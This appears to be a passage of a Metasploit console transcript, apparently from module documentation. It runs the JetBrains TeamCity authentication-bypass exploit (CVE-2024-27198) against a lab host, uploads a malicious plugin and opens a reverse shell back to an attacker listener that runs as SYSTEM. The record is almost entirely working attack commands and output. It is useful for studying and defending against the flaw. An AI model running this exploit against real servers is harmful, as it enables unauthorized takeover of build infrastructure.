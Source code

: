```
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CreateSession  true             no        Create a new session for every successful login
   LHOST          eth0             yes       The listen address (an interface may be specified)
   LPORT          4444             yes       The listen port
   SHELL                           no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   1   Java Server Page



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.68:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.OFNzM2pkZW5IMXp0V2stY2VqWEtOZkpoOW9Z.ZWU4Y2I2ODgtZDQzMS00ZjE5LTk5NzgtNGY5YzMwM2VmMjcx
[*] Uploading plugin: jWHObFbu
[*] Deleting the plugin...
[*] Deleting the authentication token...
[*] Command shell session 2 opened (192.168.86.42:4444 -> 192.168.86.68:53110) at 2024-02-23 14:20:35 +0000
[!] This exploit may require manual cleanup of 'C:\TeamCity\webapps\ROOT\plugins\jWHObFbu' on the target
[!] This exploit may require manual cleanup of 'C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_jWHObFbu' on the target
[!] This exploit may require manual cleanup of 'C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\jWHObFbu' on the target


Shell Banner:
Microsoft Windows [Version 10.0.20348.1547]
(c) Microsoft Corporation. All rights reserved.
-----
          

c:\TeamCity\bin>whoami
whoami
nt authority\system

c:\TeamCity\bin>
```
